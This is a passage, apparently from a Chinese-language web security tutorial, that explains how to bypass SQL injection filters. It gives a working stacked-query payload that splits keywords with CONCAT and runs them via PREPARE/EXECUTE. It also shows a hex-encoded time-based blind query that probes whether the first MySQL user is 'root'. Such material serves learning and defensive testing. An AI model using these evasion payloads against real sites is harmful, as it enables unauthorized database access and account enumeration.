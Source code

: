 ```plain
最后面换成正常注入的话,就是这样子的:
http://127.0.0.1/xx/user.php?id=1';set @a:=CONCAT("S", "E", "T ","@ab:=", "(SE","LECT ", "User FR","OM"," user LIM","IT", " 0,1)");PREPARE stmt FROM @a;EXECUTE stmt;set @b:=CONCAT("SE", "LE", "CT ", "i", "f(", "@ab ", "li", "ke '%", "rootaaaaaaa","%'",",","SL", "EE", "P(3),1);");PREPARE stmt2 FROM @b;EXECUTE stmt2; -- a
```

## 0x03.2 数字型注入

如果说站点有数字型注入,并且过滤了select、from、where、union还把单双引号也过滤了

那还是有办法进行注入的

```plain
例如注入的语句:
SELECT if((SELECT User FROM user LIMIT 0,1) like '%root%',SLEEP(3),1);
先使用hex转成16进制

找个数据库执行如下语句:
select hex("SELECT if((SELECT User FROM user LIMIT 0,1)like'%root%',SLEEP(3),1)");
```

![img](assets/1645533271682-727753c2-a65b-41aa-b3f9-51c60505dad9.png)



然后在转换一下即可正常注入了

```plain
// 正确的情况下
// 语句: SELECT if((SELECT User FROM user LIMIT 0,1) like '%root%',SLEEP(3),1);
SET @c:=0x53454C454354206966282853454C45435420557365722046524F4D2075736572204C494D495420302C3129206C696B65202725726F6F7425272C534C4545502833292C3129;
PREPARE stmt3 FROM @c;
EXECUTE stmt3;
```

![img](assets/1645533358188-07613f50-cd4b-483a-9849-0f3a1994d3a0.png)
